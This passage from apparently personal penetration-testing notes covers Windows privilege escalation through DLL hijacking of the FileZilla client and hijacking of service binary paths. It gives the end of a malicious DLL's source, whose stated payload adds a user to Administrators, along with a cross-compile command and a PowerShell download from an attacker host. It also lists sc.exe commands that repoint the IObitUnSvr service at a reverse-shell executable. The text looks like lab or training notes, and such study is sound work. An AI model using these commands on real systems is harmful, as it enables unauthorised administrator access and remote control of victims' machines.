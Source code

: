 ```cpp
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}
```
{% endcode %}
{% endtab %}

{% tab title="2. Cross-compile" %}
```bash
# Cross-compile the script on the attacking machine
$ x86_64-w64-mingw32-gcc dll_hijacking.cpp --shared -o TextShaping.dll
```
{% endtab %}

{% tab title="3. Transfer" %}
{% code overflow="wrap" %}
```powershell
# Transfer the malicious DLL to the target host
iwr -uri http://192.168.45.236/TextShaping.dll -OutFile 'C:\FileZilla\FileZilla FTP Client\TextShaping.dll'
```
{% endcode %}
{% endtab %}
{% endtabs %}

In order for the DLL hijacking to trigger the FileZilla FTP Client needs to be started, however, it is important to keep in mind that **the privileges the DLL will run with depend on the privileges used to start the application**. If we were to start the FTP client as a low-privileged user, then we would not have the required privileges for our payload to work, i.e., to add a new user to the system and place them in the `Administrators` group.

Some binaries need to be started as a service in order to function properly:

```powershell
# Create a new service pointing to the binary
sc.exe create "Filezilla" binpath= "C:\Users\x7331\Desktop\filezilla.exe"
# Restart the service
Restart-Service Filezilla
```

We can also try changing directly the service's configuration:

{% code overflow="wrap" %}
```powershell
# Test if the user can start the process
> Start-Process sc.exe -ArgumentList 'qc IObitUnSvr' -NoNewWindow -Wait
# Point the service to a malicious binary
> Start-Process sc.exe -ArgumentList 'config IObitUnSvr binPath= "C:\Users\dharding\reverse.exe"' -NoNewWindow -Wait
# Restart the service
> Restart-Service IObitUnSvr
```
{% endcode %}
